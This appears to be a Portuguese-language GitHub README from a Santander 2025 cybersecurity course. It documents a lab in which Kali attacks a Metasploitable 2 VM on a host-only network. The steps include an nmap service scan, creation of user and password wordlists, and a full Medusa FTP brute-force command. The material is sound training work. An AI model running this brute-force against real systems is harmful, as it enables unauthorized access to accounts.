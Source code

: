 # CiberSeguranca-Santander-2025
Este repositório reúne materiais, projetos e soluções desenvolvidos para o programa de Cibersegurança do Santander em 2025. O foco é fortalecer a proteção digital da instituição por meio de práticas avançadas de segurança da informação, análise de vulnerabilidades, resposta a incidentes e conformidade com normas internacionais.

---

Preparando o ambiente controlado:
Instalando o kali
Instalando o Metasploitable 2
Configurando a rede de ambos para utilizar apenas a rede interna (host-only)


--- 
1° - Rastreamento de IP: ifconfig [máquina alvo]
      Retorno: 192.168.56.101
      
2° - Teste de conexão: ping -c 3 192.168.56.101
      
3° - Varredura da rede: nmap -sV -p 21,22,80,445,139 192.168.56.101

4° - Teste de conexão ftp: ftp 192.168.56.101

5° - Preparo para ataque com a Medusa
    - Criação da wordlist de usuarios: echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt
    - Criação da wordlist de senhas: echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

6° - Ataque: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6

7° - Testa a conexão: ftp 192.168.56.101
